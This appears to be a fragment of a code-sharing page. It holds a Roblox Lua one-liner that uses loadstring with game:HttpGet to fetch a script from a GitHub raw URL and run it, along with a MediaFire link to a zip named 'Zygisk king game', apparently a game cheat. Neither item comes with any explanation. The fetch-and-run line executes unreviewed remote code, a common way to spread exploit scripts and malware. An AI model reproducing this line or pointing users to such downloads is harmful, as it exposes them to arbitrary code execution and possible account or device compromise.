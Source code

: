 Hi 
S6ZXKF5QAr
loadstring(game:HttpGet("https://raw.githubusercontent.com/Buibiendzai/description/main/test"))()
https://www.mediafire.com/file/s6pbd00cizoil0s/Zygisk+king+game.zip/file
